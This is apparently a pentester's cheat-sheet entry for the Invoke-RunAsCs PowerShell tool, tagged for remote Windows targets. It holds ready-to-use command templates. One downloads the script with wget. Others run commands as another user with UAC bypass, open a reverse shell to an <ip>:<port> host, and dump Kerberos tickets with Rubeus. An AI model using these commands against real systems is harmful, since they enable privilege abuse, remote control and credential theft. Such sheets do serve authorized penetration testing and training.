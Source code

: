 # Invoke-RunAsCs

% windows, Invoke-RunAsCs

#plateform/windows #target/remote  #cat/RECON

## Download
```powershell
wget https://raw.githubusercontent.com/antonioCoco/RunasCs/master/Invoke-RunasCs.ps1 -O Invoke-RunasCs.ps1
```


##  run as
```powershell
Invoke-RunAsCs -UserName <user> -Password '<password>' -Domain <domain> -LogonType <logon_type|2> -BypassUac -Command "cmd /c klist" 
```

## Reverse shell  
```powershell
Invoke-RunAsCs -UserName <user> -Password '<password>' -Domain <domain> -LogonType <logon_type|2> -BypassUac -Command cmd.exe -Remote <ip>:<port> 
```

## dump certificates (Rubeus)
```powershell
Invoke-RunAsCs -UserName <user> -Password '<password>' -Domain <domain> -LogonType <logon_type|2> -BypassUac  -Command "c:\users\jubeaz\Documents\Rubeus.exe dump /nowrap"
```
